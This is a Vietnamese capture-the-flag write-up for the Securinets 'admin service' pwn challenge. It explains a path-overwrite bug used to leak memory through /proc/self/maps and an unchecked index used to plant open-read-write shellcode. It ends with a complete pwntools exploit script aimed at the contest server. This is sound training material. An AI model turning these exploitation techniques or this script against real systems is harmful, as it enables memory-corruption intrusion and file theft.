


# admin service
## Checksec và chuẩn bị
```
[*] '/mnt/d/ctf/securinets/admin_service/services'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
```
```python
def chat(context):
        sla(b"Choice:\n", b"1")
        sla(b":", context)
def conf(idx, context):
        sla(b"Choice:\n", b"2")
        sla(b":", str(idx).encode())
        sa(b":", (context))
def mes(idx, context):
        sla(b"Choice:\n", b"3")
```

## Phân tích
- Ở option 1 chương trình cho ta đọc 1 file trong folder `./chat/`
- Ta thấy có bug ở đây

```c
char src[256]; // [rsp+10h] [rbp-310h] BYREF
char s[256]; // [rsp+110h] [rbp-210h] BYREF
char dest[8]; // [rsp+210h] [rbp-110h] BYREF
...
strcpy(dest, "./chat/");
...
__isoc99_scanf("%s[254]s", src);
```

- Ta có thể ow dest (chính là path của file). Thì trong máy có một file cho lưu địa chỉ bộ nhớ của máy là file `/proc/self/maps`
- Mục đích là để leak các địa chỉ exe base, libc base ...


- Tiếp đến ở hàm `updateConfig()` có bug là không giới hạn idx ta nhập, do vậy ta có thể ow `backupCall()` trỏ về shellcode của ta và open read write flag

## Khai thác
### Leak libc, exe  bằng /proc/self/maps

```python
payload = b"\0" * 0x200 + b"/proc/self/maps\0"
chat(payload)
p.recvline()
exe.address = int("0x"+ p.recv(12).decode(),16)
p.recvlines(7)
rwx = int("0x"+ p.recv(12).decode(),16)
info("rwx: " + hex(rwx))
info("exe base: " + hex(exe.address))
```

### ow s1 và backupCall()
- Mục đích là để call được `backupCall`
```python
conf(9, p64(rwx))                   # ow backupCall bằng địa chỉ chứa shell
conf(2, p64(exe.address + 0x20c2))  # ow s1 bằng địa chỉ chứa chuỗi "backup: 1"
idx = (rwx - exe.address + 0x4060 - 0x70c0 - 0x1000)//8 # tính idx
conf(idx+0x100//8, "flag")          # ghi chuỗi "flag" để tí open trỏ đến
pathflag = rwx + 0x100              # tính địa chỉ của flag
```

### Shellcode
- Do mỗi lần nhập ta chỉ được 10 byte, nên mỗi lần ta sẽ ghi 8 byte

```python
shellcode = asm(f'''
                mov rax, 0x2
                mov rdi, {pathflag}
                mov rsi, 0
                mov rdx, 0
                syscall
                
                mov rdi, rax
                mov rax, 0x0
                mov rsi, {rwx+0xa00}
                mov rdx, 0x50
                syscall
                
                mov rax, 0x1
                mov rdi, 1
                mov rsi, {rwx+0xa00}
                mov rdx, 0x100
                syscall
                ''')

chunks = [shellcode[i:i+8] for i in range(0, len(shellcode), 8)]    # cắt shellcode thành các 8 byte bỏ vào chunk
cnt = 0
for chunk in chunks:
        conf(idx + cnt, chunk)          # nhập vào
        cnt+=1 
mes()
```

## Kết quả

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('services', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b* backupMessages
                # b*readChat
                # b*updateConfig
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('pwn.ctf.securinets.tn', 4444)
else:
        p = process(exe.path)

GDB()
def chat(context):
        sla(b"Choice:\n", b"1")
        sla(b":", context)
        

def conf(idx, context):
        sla(b"Choice:\n", b"2")
        sla(b":", str(idx).encode())
        sa(b":", (context))
def mes():
        sla(b"Choice:\n", b"3")
payload = b"\0" * 0x200 + b"/proc/self/maps\0"
chat(payload)
p.recvline()
exe.address = int("0x"+ p.recv(12).decode(),16)
p.recvlines(7)
rwx = int("0x"+ p.recv(12).decode(),16)
info("rwx: " + hex(rwx))
info("exe base: " + hex(exe.address))

conf(9, p64(rwx))  
conf(2, p64(exe.address + 0x20c2))
idx = (rwx - exe.address + 0x4060 - 0x70c0 - 0x1000)//8
conf(idx+0x100//8, "flag")
pathflag = rwx + 0x100
# idx = 0
shellcode = asm(f'''
                mov rax, 0x2
                mov rdi, {pathflag}
                mov rsi, 0
                mov rdx, 0
                syscall
                
                mov rdi, rax
                mov rax, 0x0
                mov rsi, {rwx+0xa00}
                mov rdx, 0x50
                syscall
                
                mov rax, 0x1
                mov rdi, 1
                mov rsi, {rwx+0xa00}
                mov rdx, 0x100
                syscall
                ''')

chunks = [shellcode[i:i+8] for i in range(0, len(shellcode), 8)]
cnt = 0
for chunk in chunks:
        conf(idx + cnt, chunk)
        cnt+=1
mes()
p.interactive()

```